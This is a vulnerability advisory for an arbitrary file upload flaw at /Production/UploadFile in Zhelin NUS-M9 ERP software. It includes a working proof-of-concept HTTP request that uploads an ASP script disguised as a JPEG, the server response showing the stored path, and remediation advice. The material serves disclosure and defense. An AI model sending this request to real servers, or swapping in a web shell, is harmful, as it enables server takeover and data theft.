

## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry

Analysis and Remediation Suggestions for Arbitrary File Upload Vulnerability in Zhelin NUS-M9 ERP Management Software Backend /Production/UploadFile

## **Background** 

Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software) is a high-tech internet data company focused on the mechanical industry, specializing in the development, consulting, implementation, and services of enterprise management information software platforms. One of its primary products, the Zhelin NUS-M9 ERP management software for the mechanical industry, is widely used in industrial manufacturing. Recently, a critical arbitrary file upload vulnerability was discovered in the backend interface **/Production/UploadFile** of this software.

## **Vulnerability Description**

 This vulnerability allows attackers to upload arbitrary file types through the interface, including malicious ASP script files. Once uploaded, attackers can access the file to execute remote code, thereby gaining a Web Shell (commonly referred to as "Getshell") on the server, which could lead to full control over the affected server. Such vulnerabilities typically result from inadequate file type validation or the absence of effective security checks.

## **Impact of the Vulnerability**

1. **Remote Control**: Attackers can gain control of the server through the uploaded malicious file, enabling remote command execution and system access.
2. **Data Breach**: Attackers may exploit the acquired privileges to access or alter sensitive data on the server, leading to data breaches or corruption.
3. **System Disruption**: Attackers could delete or tamper with system files, causing business disruptions or system crashes.
4. **Persistent Attacks**: Attackers may establish persistent backdoors via the uploaded Web Shell, facilitating further malicious activities.

POC： 


POST：

```http
POST /Production/UploadFile HTTP/1.1
Host: 127.0.0.1:8086
Content-Length: 1384
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypbsEuF3C71eFJKTf
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=ehdywaltevtixgtll3zsaghf
Connection: close

------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="uploadfile"; filename="1.asp"
Content-Type: image/jpeg

<%
result = 7 * 7
Response.Write(result)
%>

------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileNm"

1.jpg
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileSize"

35.0 Bytes
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="FileType"

jpg
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UpType"

PublicFiles
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="MCode"

00133
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="DtlID"

133
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UserID"

1
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UserName"

admin
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="CUserCode"

666
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="CToken"

8F8CC991AE59513AB2A17316AA23EF285F1D7D54FC0E295E8060CFDDA2263111
------WebKitFormBoundarypbsEuF3C71eFJKTf
Content-Disposition: form-data; name="UploadTarget"

0
------WebKitFormBoundarypbsEuF3C71eFJKTf--

```

Response:

```http
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Vary: Accept-Encoding
Server: Microsoft-IIS/10.0
X-AspNetMvc-Version: 4.0
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Wed, 14 Aug 2024 10:57:05 GMT
Connection: close
Content-Length: 111

{"success":true,"FileName":"1","FilePath":"../images/PublicFiles/133/133@bda83036750e4273bef8aa75338095b3.asp"}
```



```
/images/PublicFiles/133/133@bda83036750e4273bef8aa75338095b3.asp
```


## **Remediation Suggestions**

1. **Strict File Type Validation**: Only allow the upload of specific file types, such as images or documents, and ensure consistency between the file extension and MIME type.
2. **File Renaming and Storage Control**: Rename uploaded files and store them in directories that cannot be accessed directly via URL to prevent the files from being executed.
3. **Server Permission Controls**: Ensure strict permission settings on server folders and directories to prevent unauthorized file execution.
4. **Security Audits**: Regularly conduct code audits and penetration testing on the upload functionality to identify and fix similar vulnerabilities promptly.

**Conclusion:** The security of Zhelin NUS-M9 ERP management software is crucial for its users. By fixing this arbitrary file upload vulnerability, enterprises can effectively prevent server compromise and ensure the security of their data and systems.